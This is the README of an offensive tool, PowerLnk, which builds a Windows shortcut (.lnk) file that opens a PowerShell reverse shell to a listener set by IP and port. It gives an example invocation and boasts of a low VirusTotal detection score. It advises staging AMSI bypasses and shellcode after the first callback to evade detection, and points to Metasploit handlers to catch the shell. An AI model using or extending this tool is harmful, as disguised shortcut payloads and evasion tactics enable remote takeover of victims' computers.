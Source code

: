 # PowerLnk
generates a .Lnk file that executes a reverse shell in powershell

# Useage
script takes two parameters -ip and -port where ip and port is the device you are listening on

./PowerLnk.ps1 -ip '192.168.1.5' -port 443

# Current detection

scored a 4/62 on virus total, intended for second stagers to be executed after initial callback due to including more to the lnk increases detections, so amsi, shellcode etc should be run after inital callback. I'll leave that up to yall to implement that for whatever engagement you're doing.


I'm working on a python server side console for c2 but in the meantime you can input your metasploit multi handler meterpreter etc
